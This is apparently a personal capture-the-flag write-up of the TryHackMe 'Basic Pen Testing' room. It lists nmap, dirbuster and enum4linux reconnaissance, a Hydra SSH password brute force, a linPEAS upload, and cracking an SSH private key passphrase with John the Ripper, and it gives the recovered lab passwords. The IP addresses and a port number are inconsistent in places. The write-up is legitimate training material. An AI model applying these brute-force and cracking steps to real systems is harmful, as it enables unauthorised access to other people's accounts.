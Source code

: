 # Matheus Jesus 31-03-2020

## Try Hack Me - Basic Pen Testing (https://tryhackme.com/room/basicpentestingjt)

### IP 10.10.236.222

#### 1. Net Scan

nmap -sC -sV -oN nmap_initial 10.10.73.27

* Open Ports

```text
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
39/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

##### WEB SERVICE ON http://10.10.73.27

##### Find webservice Routes

dirbuster -r dirbuster_initial.txt -u http://10.10.73.27
with list /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Found **/development** route

/development/dev.txt

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

/development/j.txt

```text
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

#### 2. SMB Find Users

Try to find username through SMB application layer
enum4linux -a 10.10.73.27 | tee enum4linux.log
Users found

```text
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

#### 3. Brute Force Password

Brute Force Jan's password through SSH Hydra
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.73.27

```text
[22][ssh] host: 10.10.73.27   login: jan   password: armando
```

#### 4. Access Jan User

Login jan user with ssh jan@10.10.73.27

* access /home/kay
* found a pass.bak file

#### 5. Privilege Escalation

Get Privilege Escalation exploits

using linPEAS
Copy script over to the machine
scp /opt/linPEAR/linpeas.sh jan@10.10.73.27:/dev/shm

#### 6. RSA Certificate Cracking

Under /home/kay
there is a hidden folder .ssh
inside there is it's RSA certificate 

use John The Ripper
https://github.com/magnumripper/JohnTheRipper

/run/ssh2john.py RSA > forjohn.txt
/run/john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt

Found password  **beeswax** for user Kay

#### 7. Access Kay User

access kay user
ssh -i kay_rsa kay@10.10.73.27
password beeswax

ls to pass.bak
cat pass.bak

DONE!!!
